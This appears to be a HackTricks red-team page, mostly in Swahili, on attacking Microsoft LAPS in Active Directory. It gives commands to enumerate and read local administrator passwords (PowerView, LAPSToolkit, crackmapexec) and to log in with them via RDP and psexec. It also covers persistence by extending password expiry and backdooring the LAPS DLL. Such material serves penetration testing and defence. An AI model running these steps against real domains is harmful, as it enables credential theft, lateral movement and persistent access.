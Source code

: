 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Local Administrator Password Solution (LAPS) ni chombo kinachotumika kwa usimamizi wa mfumo ambapo **nywila za msimamizi**, ambazo ni **za kipekee, zilizopangwa kwa nasibu, na hubadilishwa mara kwa mara**, zinatumika kwa kompyuta zilizounganishwa kwenye eneo. Nywila hizi zinahifadhiwa kwa usalama ndani ya Active Directory na zinapatikana tu kwa watumiaji ambao wamepewa ruhusa kupitia Orodha za Udhibiti wa Ufikiaji (ACLs). Usalama wa uhamasishaji wa nywila kutoka kwa mteja hadi seva unahakikishwa kwa kutumia **Kerberos toleo la 5** na **Kiwango cha Ulinzi wa Juu (AES)**.

Katika vitu vya kompyuta vya eneo, utekelezaji wa LAPS unapelekea kuongeza sifa mbili mpya: **`ms-mcs-AdmPwd`** na **`ms-mcs-AdmPwdExpirationTime`**. Sifa hizi zinahifadhi **nywila ya msimamizi ya maandiko** na **wakati wake wa kuisha**, mtawalia.

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Password Access

You could **download the raw LAPS policy** from `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` and then use **`Parse-PolFile`** from the [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.

Moreover, the **native LAPS PowerShell cmdlets** can be used if they're installed on a machine we have access to:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** inaweza pia kutumika kugundua **nani anaweza kusoma nenosiri na kulisoma**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) inarahisisha kuorodhesha LAPS hii kwa kutumia kazi kadhaa.\
Moja ni kuchambua **`ExtendedRights`** kwa **kompyuta zote zenye LAPS iliyoanzishwa.** Hii itaonyesha **makundi** yaliyotengwa mahsusi **kusoma nywila za LAPS**, ambayo mara nyingi ni watumiaji katika makundi yaliyolindwa.\
**Akaunti** ambayo ime **jiunga na kompyuta** kwenye kikoa inapokea `All Extended Rights` juu ya mwenyeji huo, na haki hii inampa **akaunti** uwezo wa **kusoma nywila.** Kuorodhesha kunaweza kuonyesha akaunti ya mtumiaji ambayo inaweza kusoma nywila ya LAPS kwenye mwenyeji. Hii inaweza kutusaidia **kulenga watumiaji maalum wa AD** ambao wanaweza kusoma nywila za LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Kutoa Nywila za LAPS Kwa Kutumia Crackmapexec**
Ikiwa hakuna ufikiaji wa powershell unaweza kutumia haki hii kwa mbali kupitia LDAP kwa kutumia
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Hii itatoa nywila zote ambazo mtumiaji anaweza kusoma, ikikuruhusu kupata msingi bora na mtumiaji tofauti.

## ** Kutumia Nywila ya LAPS **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistence**

### **Tarehe ya Kuisha**

Mara tu unapokuwa admin, inawezekana **kupata nywila** na **kuzuia** mashine isifanye **sasisho** la **nywila** kwa **kueka tarehe ya kuisha katika siku zijazo**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Nenosiri bado litarejeshwa ikiwa **admin** atatumia **`Reset-AdmPwdPassword`** cmdlet; au ikiwa **Usiruhusu muda wa kuisha kwa nenosiri kuwa mrefu zaidi ya inavyohitajika na sera** imewezeshwa katika LAPS GPO.
{% endhint %}

### Backdoor

Msimbo wa asili wa LAPS unaweza kupatikana [hapa](https://github.com/GreyCorbel/admpwd), kwa hivyo inawezekana kuweka backdoor katika msimbo (ndani ya `Get-AdmPwdPassword` njia katika `Main/AdmPwd.PS/Main.cs` kwa mfano) ambayo kwa namna fulani **itatoa nenosiri mpya au kuyahifadhi mahali fulani**.

Kisha, tu kompilisha `AdmPwd.PS.dll` mpya na uipakie kwenye mashine katika `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (na ubadilishe muda wa mabadiliko).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
